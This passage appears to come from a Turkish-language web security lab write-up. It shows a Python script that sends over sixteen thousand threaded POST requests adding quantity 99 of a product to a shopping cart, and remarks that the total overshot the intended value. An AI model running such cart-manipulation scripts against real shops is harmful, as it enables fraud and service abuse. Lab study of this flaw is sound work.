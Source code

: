 ```python
data_template = "productId=1&quantity=99&redir=CART"

def send_request(i):
    response = requests.post(url, headers=headers, data=data_template)
    print(f"Request {i}: Status Code - {response.status_code}")

# 10 thread ile çalıştırma
with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    executor.map(send_request, range(1, 16225))

```

Progamın başarıyla çalıştığını da bu şekilde teyit edebiliriz;

![Untitled](0x14-e3d5610b147c47c69793fa5e6472953f/Untitled-19.png)

Burada dozumuzu biraz kaçırınca istediğimiz değerden fazla eklemiş olduk.
